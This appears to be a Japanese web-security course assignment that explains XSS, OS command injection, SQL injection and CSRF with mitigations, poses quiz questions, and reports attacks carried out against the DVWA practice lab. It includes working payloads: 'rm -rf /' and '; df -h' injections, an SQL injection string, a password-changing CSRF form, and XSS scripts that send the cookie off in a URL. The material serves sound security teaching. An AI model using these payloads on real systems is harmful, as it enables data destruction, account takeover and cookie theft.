




## 課題１（質問）

### 以下の脆弱性の仕組み、発生し得る被害、対処法を解説してください

XSS

- 仕組み

  - Web アプリケーション上で HTML や JavaScript を生成している箇所にて、悪意のある JavaScript がアプリケーション内に埋め込まれブラウザ上で実行されることで、サービス提供者だけではなく、利用者まで被害が及ぶサイバー攻撃です。

- 発生し得る被害

  - 攻撃者の用意したスクリプトの実行によりクッキーの値を盗まれ、利用者がなりすましの被害にあう。
  - 攻撃者の用意したスクリプトの実行によりサイト利用者の権限で Web アプリケーションの機能を悪用される。
  - Web サイト上に偽の入力フォームが表示され、フィッシングにより利用者が個人情報を盗まれる。

- 対処法
  - Cookie に HttpOnly 属性を付与する。
  - HTML で特殊な意味を持つ記号文字(メタ文字)をエスケープすることです。
    - Web アプリケーション側で想定している文字エンコーディングとブラウザが想定する文字エンコーディングに差異があると XSS の原因になり得るため、レスポンスのヘッダーに文字エンコーディングを指定すると防ぐことが出来ます。`Content-Type: text/html; charset=UTF-8`
    - 属性値(例えば、input タグの value)を「"」で囲み、「<」と「"」と「&」を文字参照にする。
  - a タグの href 属性などは、URL を属性値として取るため、URL として「javascript:JavaScript 式」という形式(javascript スキーム)でスクリプトを実行することが出来ます。(javascript:alert("aaaa")を href に設定すると alert が実行出来る。)動的に a タグの href 属性に値を設定する場合は`http:`または`https:`で始まる絶対 URL か「/」で始まる相対 URL かをチェックする処理を追加する。

コマンドインジェクション

- 仕組み

  - サーバーサイドで OS コマンドラインを動的に生成する際に、ユーザーから送られてきたデータをそのままコマンドラインとして実行してしまい、ファイル破壊やファイル改竄などの被害が生じるものです。

  （例）

  ```
  /opt/myapp/bin/add_user $data
  　↓
  /opt/myapp/bin/add_user yamada; rm -rf /
  ```

  参考：http://www.tohoho-web.com/ex/security.html#os-command-injection

- 発生し得る被害

  - コンピュータの乗っ取り
  - 他のコンピュータへの攻撃の踏み台
  - コンピュータウイルスのばらまき
  - フィッシング詐欺等の悪用
  - データーベース内に登録されている個人情報が流出する
  - データベースの改竄や消去が行われる

  参考：
  https://www.ipa.go.jp/security/awareness/vendor/programmingv2/contents/501.html
  https://cybersecurity-jp.com/security-measures/18639#OS-2

- 対処法

  - 外部からのコマンドを直接パラメータとして指定して、うっかりシェルを動かさないようにする。Ruby だと exec(), system()コマンドなど、よく使われるメソッドの引数に特殊記号

  ```
  * ? {} [] <> () ~ & | \ $ ; ' ` " \n
  ```

  のいずれかが含まれているとシェルが起動される。これらのメソッドをなるべくアプリケーション内で使用しない、もしくは外部からパラメータを受け取る際はエスケープ処理など注意して扱う必要がある。

  参考：
  https://www.ipa.go.jp/security/awareness/vendor/programmingv2/contents/501.html

SQL インジェクション

- 仕組み

  - サーバーサイドで SQL 文を動的に生成する際に、ユーザーから送り込まれたデータをそのまま SQL 文として実行してしまい、データ破壊やデータ漏洩などの被害が生じるものです。

  （例）

  ```
  select * from users where user_name = '$data';
  　↓
  select * from users where user_name = 'Yamada'; delete from users where user_name like '%';
  ```

  参考：http://www.tohoho-web.com/ex/security.html#sql-injection

- 発生し得る被害

  - データベース内のすべての情報が外部から盗まれる。
  - データベースの内容が書き換えられる。
  - 認証を回避される。
  - その他、データベースサーバー上のファイルの読み出し、書き込み、プログラムの実行などを行われる。

- 対処法

  - プレースホルダを利用して外部から受け取る文字列をエスケープした状態で SQL を呼び出す。RubyOnRails の find メソッドなどは自動でエスケープ処理が入っており、where メソッドなどを用いる場合は手動で設定する必要があるため、注意が必要です。[参考](https://railsguides.jp/security.html#sql%E3%82%A4%E3%83%B3%E3%82%B8%E3%82%A7%E3%82%AF%E3%82%B7%E3%83%A7%E3%83%B3-%E5%AF%BE%E5%BF%9C%E7%AD%96)

  参考：
  https://www.ipa.go.jp/security/vuln/websecurity-HTML-1_1.html

CSRF(※フォージェリとは、「偽装」を意味します)

- 仕組み

  - 攻撃者が自分のサイトや各種掲示板に仕掛けた下記の様なリンクを利用者がクリックした場合、利用者のブラウザから脆弱性のあるサイトに悪意のあるリクエストが、利用者の名義で送信されてしまうものです。ID/パスワードで守られているページであっても、利用者がログインしている間はセッションが有効であり、書き込みが成功してしまいます。これにより掲示板に利用者の名義で悪意のある書き込みが行われたり、不正な送金が行われたりします。(SOP では、シンプルな POST リクエストは preflight request を行わないため、CSRF 対策は必須です。)

  ```
  <a href="http://脆弱性のあるサイト/post.cgi?msg=悪意のある書き込み">詳細はこちら</a>
  ```

  参考：http://www.tohoho-web.com/ex/security.html#forgery

- 発生し得る被害

  - 利用者のアカウントによる物品の購入
  - 利用者の退会処理
  - 利用者のアカウントによる SNS や掲示板などへの書き込み
  - 利用者のパスワードやメールアドレスの変更など
    利用者の意図しないところで、Web アプリケーションの重要な処理が行われてしまいます。

  参考：https://www.ipa.go.jp/security/awareness/vendor/programmingv2/contents/301.html

- 対処法
  - POST などの重要な処理の場面において、秘密の「照合情報」(Token)を Web アプリケーションとブラウザ間でやりとりし、第三者が用意した偽のコンテンツから発せられたリクエストを区別出来るようにする。具体的には、フォームを表示するプログラムによって他者が推定困難なランダム値を hidden フィールドとして埋め込み送信し、フォームデータを処理するプログラムによってそのランダム値がフォームデータ内に含まれていることを確認する。

## 課題２（クイズ）

No.1：CSP(コンテンツセキュリティポリシィー)とは、どのような仕組みのことでしょうか？

No.2：WebAPI の CSRF 対策方法を 2 つあげてください。

No.3：X-XSS-Protection ヘッダーはどのような役割をもちますか？

## 課題３（実演）

### 脆弱性の攻撃

DVWA に最低限、以下の攻撃を成功させてください

- コマンドインジェクション
  「; df -h」と入力すると、以下の画像のような表示が出て、ハードウェア情報が出力されました。シェルの命令可能なフォームであることが分かります。

  

  [参考](https://qiita.com/KPenguin/items/200859376e3865b866bb)

  有効な対策
  外部から受け取る値をエスケープした状態で受け取るようにする。

- SQL インジェクション
  「1' or 'a'='a」と入力すると、以下の画像のような表示が出て、全ユーザーが出力されました。sql 命令可能なフォームであることが分かります。

  

  [参考](https://qiita.com/KPenguin/items/0ef2fdc5a35f16f20fdb)

  有効な対策
  外部から受け取る値をエスケープした状態で受け取るようにする。具体的には、プレースホルダーを用いる。

- CSRF
  `csrf.html`という悪意のあるフォームを用意し、action にパスワード変更のリクエスト先である`http://localhost/vulnerabilities/csrf/?`を指定しました。
  ログインした状態で、`csrf.html`のフォームに`test`と入力して、送信すると`http://localhost/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change#`に飛ばされ、以下の画像のようにパスワードの更新が行われたことが分かります。
  パスワード`test`でログイン出来るようになったことも確認出来ました。

  

  [参考](https://qiita.com/KPenguin/items/92e88dfe6a5734dc2532)

  有効な対策
  フォームに hidden 属性で csrf 対策用のトークンを埋め込むようにし、サーバーがリクエストを受け取った時にトークンが正しい値なのか検証を行うようにする。

- XSS
  XSS(reflected)
  `http://localhost/vulnerabilities/xss_r/?name=and Welcome!<script>window.addEventListener("load",e=>window.location = ["http://localhost?k=",document.cookie].join(""))</script>`のような URL にアクセスしたとき、`http://localhost/?hisCookie=_ga=GA1.1.amp-rXRaKF8PR18-z4IbOzQ-6;`のような URL にリダイレクトされたことから、cookie の値を取得出来ていることが分かります。

  [XSS(reflected)参考](https://qiita.com/KPenguin/items/783caef6a43e594ed7cd)

  XSS(stored)
  以下のようなスクリプトをフォームに入力したところ、画像のように a タグを埋め込むことが出来たことから、JavaScript を実行出来ることが分かります。(※テストで何度も実行したため、タグが複数出来てしまっています...。)

  ```
  <script>a=document.createElement("a")</script>
  <script>a.innerText="ヘルプ"</script>
  <script>table=document.getElementsByTagName("table")</script>
  <script>table[0].appendChild(a)</script>
  ```

  
  [XSS(stored)参考](https://qiita.com/KPenguin/items/dea8c81522f81b7bb1f3)

  有効な対策
  HTML で特殊な意味を持つ記号文字(メタ文字)をエスケープする。また、reflected では cookie の値が取得出来てしまっているので、cookie に httpOnly 属性を付与する。
